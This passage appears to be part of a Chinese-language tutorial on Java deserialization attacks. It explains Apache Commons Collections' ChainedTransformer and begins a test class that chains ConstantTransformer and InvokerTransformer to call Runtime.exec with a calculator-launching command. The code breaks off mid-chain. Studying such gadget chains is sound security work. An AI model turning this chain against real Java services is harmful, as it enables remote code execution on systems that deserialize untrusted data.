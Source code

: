 `ChainedTransformer`类封装了`Transformer`的链式调用，当传入一个`Transformer`数组时，`ChainedTransformer`就会依次调用每一个`Transformer`的`transform`方法，关键源码如下所示：

```java
public class ChainedTransformer implements Transformer, Serializable {
    private static final long serialVersionUID = 3514945074733160196L;
    private final Transformer[] iTransformers;
		
    public ChainedTransformer(Transformer[] transformers) {
        this.iTransformers = transformers;
    }

    public Object transform(Object object) {
        for(int i = 0; i < this.iTransformers.length; ++i) {
            object = this.iTransformers[i].transform(object);
        }

        return object;
    }
}
```

贴一张 P 牛画的图
![img](images/img.png)

通过`ChainedTransformer`类实现命令执行
```java
package com.serialize;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;;

/**
 * Created by dotast on 2022/9/1 10:34
 */
public class TransformerTest {
    public static void main(String[] args){
        String cmd = "open -a Calculator.app";

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                // new Class[0]为占位符
                new InvokerTransformer(
                        "getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}
                ),
                new InvokerTransformer(
```
